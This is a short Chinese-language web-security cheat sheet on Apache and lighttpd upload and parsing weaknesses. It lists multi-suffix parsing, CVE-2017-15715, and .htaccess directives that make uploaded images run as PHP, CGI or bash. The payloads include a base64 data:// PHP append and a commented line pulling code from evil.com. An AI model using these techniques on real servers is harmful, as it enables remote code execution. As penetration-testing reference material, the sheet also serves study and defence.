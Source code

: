 Apache
========================================

后缀解析
----------------------------------------
``test.php.x1.x2.x3`` （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析

.htaccess
----------------------------------------
htaccess是超文本访问（Hypertext Access）的缩写，是一个基于Apache的Web服务器使用的配置文件，用于控制它所在的目录以及该目录下的所有子目录。

当AllowOverride被启用时，上传启用解析规则的.htaccess

::

    AddType application/x-httpd-php .jpg

::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

::

    Options ExecCGI
    AddHandler cgi-script .jpg

::

    Options +ExecCGI
    AddHandler fcgid-script .gif
    FcgidWrapper "/bin/bash" .gif

::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://evil.com/evil-code.txt

目录遍历
----------------------------------------
配置 ``Options +Indexes`` 时Apache存在目录遍历漏洞。

CVE-2017-15715
----------------------------------------
``%0A`` 绕过上传黑名单。

lighttpd
----------------------------------------
``xx.jpg/xx.php``

参考链接
----------------------------------------
- `Apache 上传绕过 <https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html>`_
